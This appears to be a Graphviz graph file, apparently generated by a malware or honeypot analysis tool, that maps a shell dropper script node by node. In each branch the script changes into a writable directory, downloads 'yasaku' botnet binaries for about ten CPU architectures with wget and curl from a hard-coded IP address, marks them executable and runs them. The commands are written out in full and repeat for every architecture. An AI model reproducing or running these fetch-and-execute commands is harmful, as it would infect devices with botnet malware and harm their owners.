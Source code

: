 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://185.172.164.40/bins/yasaku.x86 "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.172.164.40/bins/yasaku.x86 "];
12 -> 14 [label=";,"];
14 [label="cat yasaku.x86 tmp "];
14 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./tmp roots.ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 32 [label="||,"];
32 [label="wget http://185.172.164.40/bins/yasaku.mips "];
32 -> 34 [label=";,"];
34 [label="curl -O http://185.172.164.40/bins/yasaku.mips "];
34 -> 36 [label=";,"];
36 [label="cat yasaku.mips tmp "];
36 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./tmp roots.ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 54 [label="||,"];
54 [label="wget http://185.172.164.40/bins/yasaku.mpsl "];
54 -> 56 [label=";,"];
56 [label="curl -O http://185.172.164.40/bins/yasaku.mpsl "];
56 -> 58 [label=";,"];
58 [label="cat yasaku.mpsl tmp "];
58 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./tmp roots.ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 76 [label="||,"];
76 [label="wget http://185.172.164.40/bins/yasaku.arm4 "];
76 -> 78 [label=";,"];
78 [label="curl -O http://185.172.164.40/bins/yasaku.arm4 "];
78 -> 80 [label=";,"];
80 [label="cat yasaku.arm4 tmp "];
80 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./tmp roots.ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 98 [label="||,"];
98 [label="wget http://185.172.164.40/bins/yasaku.arm5 "];
98 -> 100 [label=";,"];
100 [label="curl -O http://185.172.164.40/bins/yasaku.arm5 "];
100 -> 102 [label=";,"];
102 [label="cat yasaku.arm5 tmp "];
102 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./tmp roots.ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 120 [label="||,"];
120 [label="wget http://185.172.164.40/bins/yasaku.arm6 "];
120 -> 122 [label=";,"];
122 [label="curl -O http://185.172.164.40/bins/yasaku.arm6 "];
122 -> 124 [label=";,"];
124 [label="cat yasaku.arm6 tmp "];
124 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./tmp roots.ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 142 [label="||,"];
142 [label="wget http://185.172.164.40/bins/yasaku.arm7 "];
142 -> 144 [label=";,"];
144 [label="curl -O http://185.172.164.40/bins/yasaku.arm7 "];
144 -> 146 [label=";,"];
146 [label="cat yasaku.arm7 tmp "];
146 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./tmp roots.ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 164 [label="||,"];
164 [label="wget http://185.172.164.40/bins/yasaku.ppc "];
164 -> 166 [label=";,"];
166 [label="curl -O http://185.172.164.40/bins/yasaku.ppc "];
166 -> 168 [label=";,"];
168 [label="cat yasaku.ppc tmp "];
168 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./tmp roots.ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 186 [label="||,"];
186 [label="wget http://185.172.164.40/bins/yasaku.m68k "];
186 -> 188 [label=";,"];
188 [label="curl -O http://185.172.164.40/bins/yasaku.m68k "];
188 -> 190 [label=";,"];
190 [label="cat yasaku.m68k tmp "];
190 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./tmp roots.ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://185.172.164.40/bins/yasaku.sh4 "];
208 -> 210 [label=";,"];
210 [label="curl -O http://185.172.164.40/bins/yasaku.sh4 "];
210 -> 212 [label=";,"];
212 [label="cat yasaku.sh4 tmp "];
212 -> 214 [label=";,"];
214 [label="tmp "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
}
